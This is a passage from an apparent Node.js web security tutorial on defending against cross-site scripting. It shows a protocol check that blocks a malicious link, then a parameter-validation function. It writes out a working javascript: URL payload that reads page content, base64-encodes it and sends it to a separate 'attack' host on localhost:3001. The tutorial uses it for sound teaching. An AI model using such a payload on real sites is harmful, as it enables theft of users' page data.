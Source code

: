 If we stop the `fixed-app` server and start the `protocol-safe-app`
server:

```sh
$ cd protocol-safe-app
$ node index.js
```

And attempt to use the same URL http://localhost:3000/?prev=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(stat.innerHTML)}`,0/,
when we click the "Back to Control HQ" link, we should instead receive 
a 404 message (in development the message will be something like "Cannot GET /javascript:(new%20Image().src)=%60http://localhost:3001/attack/$%7Bbtoa(stat.innerHTML)%7D%60,0//en").

> #### CSRF ![](../info.png)
> This attack conceptually touches on CSRF, by using XSS to initiate  
> an attack that uses the (hypothetical) access privilege 
> of the user to execute commands on their behalf. We'll find out 
> more about CSRF in the **Preventing Cross Site Request Forgery** recipe.

#### Parameter Validation

The browser address bar does not wrap a long URL, if the URL is longer
than the address bar the remainder of the URL is hidden. 

This can make it difficult, even for savvy users, to identify a malicious URL,
especially when the site has a tendency to use long URLs in the first place.
This is, even more of a problem on mobile devices. 

In general, even for useability, it's good practice to keep URLs as 
short as possible. Enforcing a short URL length 
(that fits in a smallish desktop browser window), 
to say, 140 characters is probably too brittle for most sites, but one
thing we could do in our case is enforce expected parameter constraints.

Let's copy the original `app` folder we prepared in the **Getting Ready**
section to a folder called `param-constraints-app`:

```sh
$ cp -fr app param-constraints-app
```

In `index.js` we'll create a simply validation function:

```js
function validate ({prev, handoverToken, lang}, query) {
  var valid = Object.keys(query).length <= 3
  valid = valid && typeof lang === 'string' && lang.length === 2
  valid = valid && typeof handoverToken === 'string' && handoverToken.length === 16
  valid = valid && typeof prev === 'string' && prev.length < 10
  return valid
}
```

> ##### Object Validation ![](../tip.png)
> For serious validation, check out the http://npm.im/joi module, 
> it's primarily maintained by the HapiJS community but it can be
> used with any web framework. 
